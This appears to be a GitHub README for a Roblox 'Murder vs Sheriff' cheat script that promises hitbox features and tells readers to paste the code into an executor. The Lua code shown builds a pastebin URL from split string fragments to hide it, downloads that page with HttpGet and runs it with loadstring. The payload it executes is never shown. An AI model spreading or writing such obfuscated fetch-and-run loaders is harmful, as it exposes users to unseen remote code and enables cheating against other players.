# Murder vs Sheriff

![Game Image](https://raw.githubusercontent.com/lucent-hub/Lucent/refs/heads/main/Script/Murder%20VS%20Sheriff/images.jpeg)

## Features

- Only hitbox
- Customize hitbox

---

## Installation

- Copy script  
- Go to your executor (Delta, KRNL, etc.)  
- Paste and execute  
- Enjoy :)
 <pre> ```lua local function s(t)local r={"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}return table.concat(r)end
local function r(u)return game:HttpGet(u)end
local function x(c)return loadstring(c)()end

local url = s()
local code = r(url)
x(code) ``` </pre>
